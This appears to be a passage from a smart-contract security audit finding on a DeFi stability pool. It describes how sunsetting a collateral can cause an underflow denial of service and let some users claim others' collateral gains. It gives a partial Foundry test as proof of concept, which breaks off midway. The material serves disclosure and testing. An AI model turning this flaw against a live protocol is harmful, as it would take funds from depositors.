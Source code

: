 - DoS on functions that execute `_accrueDepositorCollateralGain` due to underflow on `uint256 firstPortion = sums[i] - depSums[i];`.
- Users being unable to claim their collateral gains because there is not enough collateral in the pool.
- Users claiming more gains than they should, taking them from other users (see proof of concept).

Additionally, the current overwriting system requires that a new collateral is enabled in order to disable the sunset collateral, which is not ideal.

## Proof of concept

Add the following code to the file `test/unit/Roots.t.sol` and run `forge test --mt test_sunsetCollateral`.

```solidity
function _openTroveAndProvideToSP(
    TroveManager troveManager,
    address user,
    uint256 collAmount,
    uint256 debtAmount
) private {
    Collateral collateral = Collateral(address(troveManager.collateralToken()));
    vm.startPrank(user);
    collateral.mint(collAmount);
    collateral.approve(address(system.borrowerOperations), collAmount);
    system.borrowerOperations.openTrove(troveManager, user, 1e16, collAmount, debtAmount, address(0), address(0));
    system.debtToken.approve(address(system.stabilityPool), debtAmount);
    system.stabilityPool.provideToSP(debtAmount);
    vm.stopPrank();
}

function test_sunsetCollateral() external {
    uint256 collateralToProvide = 4e18;
    uint256 amountToBorrow = 1e18;

    // Alice opens trove with coll A and provides MEAR to stability pool
    _openTroveAndProvideToSP(troveManagerA, ALICE, collateralToProvide * 100, amountToBorrow);

    // Bob opens trove with coll A and provides MEAR to stability pool
    _openTroveAndProvideToSP(troveManagerA, BOB, collateralToProvide, amountToBorrow);

    // Bob becomes liquidable and is liquidated
    uint256 newCollateralPrice = (12e17 * amountToBorrow) / collateralToProvide;
    priceFeed.setPrice(address(collateralA), newCollateralPrice);
    vm.prank(LIQUIDATOR);
    system.liquidationManager.liquidate(troveManagerA, BOB);

    // Alice triggers accrual of collateral gains
    skip(1);
    vm.prank(ALICE);
    system.stabilityPool.withdrawFromSP(0);

    // Collateral A is sunset
    vm.startPrank(OWNER);
    troveManagerA.startSunset();
    system.stabilityPool.startCollateralSunset(collateralA);
    vm.stopPrank();

    // After 180 days, a new collateral is added
    skip(180 days + 1);
    Collateral collateralC = new Collateral("Collateral C", "CC");
    priceFeed.setPrice(address(collateralC), 2e18);

```